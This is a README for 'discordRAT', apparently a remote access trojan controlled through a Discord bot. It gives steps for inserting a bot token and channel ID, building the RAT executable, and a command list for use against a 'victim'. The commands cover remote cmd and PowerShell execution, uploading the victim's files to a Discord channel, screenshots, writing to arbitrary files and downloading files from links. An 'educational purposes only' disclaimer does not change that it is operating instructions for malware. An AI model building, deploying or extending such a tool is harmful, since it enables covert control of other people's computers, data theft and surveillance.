 # discordRAT
THIS IS FOR EDUCATIONAL PURPOSES ONLY IM NOT RESPONSIBLE WHAT YOU DO WITH THIS
how to use:
first open source.py 
find these lines 
Replace with your bot token
loop.create_task(DisFunc.start('your token here'))
  channel = DisFunc.get_channel()  Replace with your desired channel ID 
then run pip install -r requirements.txt
and run builder.rat wait few min 


goto dist and you'r rat should there



comands:     
    ?ps <command> same as cmd but powershell 
    ?cmd <command> - Execute a command.
    ?upload <path> <channel_id> - Upload a file from victim to the specified channel cannot accept spaces.
    ?nano <filepath> nano writes thing inside any file work like nano usage ?nano filepath nano is awesome :D
    ?screenshot get screenshot victim computer
    ?furryporn you really do not want to execute this even if victim is your worst enemy
    ?rickroll this is same as furryporn but rickroll :D
    ?usage show cpu and ram usage
    ?ahah bu ahlayan kadın sesi türklere özel :D
    ?download download file from link
    ?website https://example.com/: Sends the user to a website of choice


    credit to : https://github.com/syntheticlol
